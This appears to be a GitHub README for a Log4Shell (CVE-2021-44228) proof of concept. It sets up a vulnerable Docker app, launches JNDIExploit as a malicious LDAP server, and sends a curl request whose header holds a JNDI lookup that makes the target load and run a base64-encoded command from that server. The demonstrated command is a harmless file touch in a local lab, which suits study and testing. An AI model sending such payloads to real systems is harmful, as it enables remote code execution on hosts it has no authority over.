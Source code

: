 # CVE-2021-44228 (Log4shell)

Proof of concept (PoC) for the CVE-2021-44228 vulnerability affecting Apache Log4j2. It allows for remote code execution (RCE) on affected systems. 

# Description

Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.

For more information:

[CVE-2021-44228](https://nvd.nist.gov/vuln/detail/cve-2021-44228)

# Requirements

- Docker image (log4j2-vuln:v1.1)
- JNDIExploit v1.2
- Curl

# Build the Docker image by yourself

In the directory where the Dockerfile is located, the following command must be run to create the Docker image:

<b>Note:</b> The file "Log4j2Vuln-1.1-SNAPSHOT.jar" must be in the same directory.

`docker build -t log4j2-vuln:v1.1 .`

# Run Docker image

You can download and run the Docker image from DockerHub, as follows:

`docker run --name log4j2-vuln -p 8080:8080 d0ck3rt3k1umhub/log4j2-vuln:v1.1`

When the image is created using the Dockerfile, it should be run as follows:

`docker run --name log4j2-vuln -p 8080:8080  log4j2-vuln:v1.1`

# Exploitation Steps

- As a first step, the Docker image of the vulnerable application must be executed.
- Then, you must unzip the zip file "JNDIExploit.v1.2.zip":

`unzip JNDIExploit.v1.2.zip`

- Execute the exploit that allows creating a malicious LDAP.

```
usage: java -jar JNDIExploit-1.2-SNAPSHOT.jar [-i] [-p]

arguments:
  -i      Private IP Address to use for the LDAP server
  -p      Port to use for the LDAP server (For example, 8888)
```

- Launch the malicious request using the Curl tool. The malicious payload is encoded in base64 (this can be changed).
- 
<b>Note:</b> In this example, the payload contains the following command `touch /tmp/tekium_prueba.txt`, which will create a file named "tekium_prueba.txt" in the "/tmp" directory.

`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://ldap_ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZWtpdW1fcHJ1ZWJhLnR4dA==}'`

- Both the vulnerable application and the exploit will show in the output that the exploitation was successful.

- To confirm that the exploit was successful, you can list the contents of the "/tmp" directory in the Docker image. To do this, use the following command:

`docker exec log4j2-vuln ls /tmp`

- It can be seen that the file "tekium_prueba.txt" was created in the directory, confirming that the vulnerability was successfully exploited.

# Credits

<i>Note: This project is inspired by the <a href="https://github.com/christophetd/log4shell-vulnerable-app">christophetd</a> project.</i>

# Disclaimer

This project is intended for educational purposes and testing ethical hacking (always do so with prior authorization or in your own controlled testing environment). The author is not responsible for any malicious use or damage caused. Use at your own risk.
